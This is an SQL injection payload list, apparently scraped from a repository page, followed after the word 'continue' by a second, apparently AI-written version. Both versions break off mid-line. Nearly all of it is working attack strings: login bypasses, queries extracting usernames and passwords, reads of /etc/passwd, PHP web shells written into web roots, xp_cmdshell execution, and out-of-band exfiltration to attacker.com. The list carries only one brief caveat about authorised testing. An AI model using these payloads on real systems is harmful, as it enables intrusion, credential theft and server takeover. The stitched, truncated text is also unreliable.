 

# SQL Injection (SQLi) Payloads List

Below is a collection of common SQL injection payloads categorized by attack type and database technology.

## Basic Authentication Bypass

```
' OR '1'='1
' OR 1=1 --
' OR 1=1 #
admin' --
admin' #
admin'/*
admin' OR '1'='1
```

## Union-Based Attacks

```
UNION SELECT null,username,password FROM users--
UNION SELECT 1,2,3,4--
UNION ALL SELECT database(),user(),version()--
```

## Error-Based Attacks

```
AND (SELECT 0 FROM (SELECT count(*),concat(version(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
AND GTID_SUBSET(CONCAT(0x7e,(SELECT USER()),0x7e),0)
EXTRACTVALUE(rand(),concat(0x3a,(select database())))
```

## Boolean-Based Blind SQLi

```
AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'
AND ASCII(SUBSTRING((SELECT database()),1,1))>100
```

## Time-Based Blind SQLi

```
IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0)
; WAITFOR DELAY '0:0:5' --
OR (SELECT * FROM (SELECT(SLEEP(5)))a)
```

## Database-Specific Payloads

### MySQL
```
@@version
LOAD_FILE('/etc/passwd')
INTO OUTFILE '/var/www/html/shell.php'
CONNECTION_ID()
```

### MSSQL
```
@@SERVERNAME
xp_cmdshell('whoami')
WAITFOR DELAY '0:0:5'
```

### Oracle
```
(SELECT banner FROM v$version WHERE rownum=1)
UTL_HTTP.REQUEST('http://attacker.com')
DBMS_LOCK.SLEEP(5)
```

### PostgreSQL
```
current_database()
pg_sleep(5)
COPY (SELECT '<?php system($_GET[cmd]); ?>') TO '/var/www/html/shell.php'
```

## Out-of-Band Techniques

```
||UTL_HTTP.request('http://attacker.com/'||database())--
EXEC master..xp_dirtree '\\att

continue

 Here’s a list of common SQL injection (SQLi) payloads categorized by attack type. These can be used for testing and understanding SQL injection vulnerabilities (only in authorized environments like penetration testing or CTFs).

---

### **1. Basic Authentication Bypass**
```sql
' OR '1'='1
' OR 1=1 -- 
" OR "" = "
admin' --
admin' OR '1'='1
```

---

### **2. UNION-Based Attacks**
Extract data from other tables using `UNION SELECT`:
```sql
' UNION SELECT 1,2,3 -- 
' UNION SELECT username, password, NULL FROM users -- 
```

---

### **3. Error-Based SQLi**
Trigger database errors to extract information:
```sql
' AND (SELECT 0 FROM (SELECT COUNT(*), CONCAT((SELECT @@version), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- 
```

---

### **4. Boolean-Based Blind SQLi**
True/False conditions to infer data:
```sql
' AND SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)='a' -- 
```

---

### **5. Time-Based Blind SQLi**
Delay-based inference:
```sql
'; IF (SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)='a') WAITFOR DELAY '0:0:5' -- 
```

---

### **6. Out-of-Band Data Exfiltration**
Exfiltrate data via DNS/HTTP requests:
```sql
'; DECLARE @data VARCHAR(1024); SET @data=(SELECT password FROM users WHERE username='admin'); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"') -- 
```

---

### **7. File System Access**
Read/write files (if DB permissions allow):
```sql
' UNION SELECT LOAD_FILE('/etc/passwd'), NULL, NULL -- 
'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/shell.php' -- 
```

---

### **8. Database-Specific Payloads**

#### **MySQL / MariaDB**
```sql
-- Version check  
SELECT @@version  

-- List databases  
SELECT schema_name FROM information